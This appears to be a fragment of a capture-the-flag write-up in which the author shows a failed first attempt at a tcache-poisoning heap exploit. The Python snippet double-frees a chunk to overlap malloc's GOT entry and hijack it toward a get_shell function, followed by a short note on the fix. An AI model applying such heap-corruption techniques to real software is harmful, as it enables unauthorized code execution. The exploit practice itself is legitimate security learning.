

```python
Tcache1 = create_heap(0x28, b'Tcache1')
Tcache2 = create_heap(0x28, b'Tcache2')
delete_heap(Tcache1)
delete_heap(Tcache2)

modify_heap(Tcache1, 0xf , b'a' * 9)

delete_heap(Tcache1)

create_heap(0x28, pack(elf.got['malloc']))
#create_heap(0x28, b'garbage1')
#create_heap(0x28, b'garbage2')
#create_heap(0x28, pack(elf.sym['get_shell']))
```

This is my first payload; however, it is not successfull

I see that 



It has two tcachebins, although it recognizes the pointer to malloc got.

Thus, I link tcache2 to malloc got instead of tcache1.(trigger number of tcachebins)
